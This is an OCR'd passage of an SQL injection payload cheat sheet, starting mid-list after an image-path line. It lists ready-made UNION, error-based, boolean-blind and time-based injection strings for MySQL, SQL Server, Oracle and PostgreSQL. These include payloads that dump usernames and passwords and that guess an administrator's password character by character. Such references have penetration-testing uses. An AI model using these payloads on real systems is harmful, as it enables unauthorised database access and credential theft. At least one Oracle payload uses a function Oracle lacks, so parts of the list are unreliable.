 2.  **Identify Data Types (Optional, but helpful):**
    * `' UNION SELECT 'a', NULL, NULL -- `
    * `' UNION SELECT NULL, 1, NULL -- `

3.  **Extract Data:**
    * `' UNION SELECT NULL, version(), database() -- `
    * `' UNION SELECT username, password FROM users -- `

**Example:**
`products.php?category=gizmos' UNION SELECT NULL, @@version, user() -- `

### Error-Based Payloads
Force the database to disclose information in error messages. Syntax varies greatly by DBMS.

* **MySQL:**
    * `AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x3a,0x3a,(SELECT DATABASE()),0x3a,0x3a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) -- `
    * `AND EXTRACTVALUE(rand(),CONCAT(0x3a,VERSION())) -- ` (MySQL 5.1+)
    * `AND UPDATEXML(rand(),CONCAT(0x3a,(SELECT USER())),rand()) -- `
* **SQL Server:**
    * `AND 1=CONVERT(int, (SELECT @@version)) -- `
    * `AND 1=(SELECT TOP 1 CAST(name AS int) FROM sys.databases) -- ` (Forces error by casting text to int)
* **Oracle:**
    * `AND 1=CTXSYS.DRITHSX.SN(USER,(SELECT banner FROM v$version WHERE ROWNUM=1)) -- `
    * `AND 1=(SELECT UPPER(XMLType(CHR(60)||CHR(58)||CHR(33)||(SELECT user FROM DUAL)||CHR(33)||CHR(62))) FROM DUAL) -- `
* **PostgreSQL:**
    * `AND CAST((SELECT version()) AS int) -- ` (Forces error)

### Boolean-Based Blind Payloads
Infer data character by character based on true/false responses.

* `' AND (SELECT SUBSTRING(version(),1,1))='5' -- ` (Is the first char of version '5'?)
* `' AND (SELECT ASCII(SUBSTRING(database(),1,1))) > 100 -- ` (Is ASCII value of first char of db name > 100?)
* `' AND EXISTS(SELECT * FROM users WHERE username='administrator' AND SUBSTRING(password,1,1)='a') -- `

**Example:**
If `http://example.com/page?id=1' AND 1=1 -- ` loads normally, and
`http://example.com/page?id=1' AND 1=2 -- ` loads differently (or errors), then it's vulnerable.

### Time-Based Blind Payloads
Infer data based on server response time.

* **MySQL:**
    * `' AND SLEEP(5) -- `
    * `' OR IF(SUBSTRING(version(),1,1)='5', SLEEP(5), 0) -- `
* **PostgreSQL:**
    * `' AND pg_sleep(5) -- `
    * `' OR CASE WHEN (SUBSTRING(version(),1,1)='1') THEN pg_sleep(5) ELSE pg_sleep(0) END -- `
* **SQL Server:**
    * `'; WAITFOR DELAY '0:0:5' -- `
    * `' IF (SUBSTRING(DB_NAME(),1,1)='m') WAITFOR DELAY '0:0:5' -- `
* **Oracle:**
    * `AND DBMS_LOCK.SLEEP(5) -- `
    * `AND (SELECT CASE WHEN (SUBSTRING(banner,1,1)='O') THEN DBMS_LOCK.SLEEP(5) ELSE DBMS_LOCK.SLEEP(0) END FROM v$version WHERE ROWNUM=1) -- `
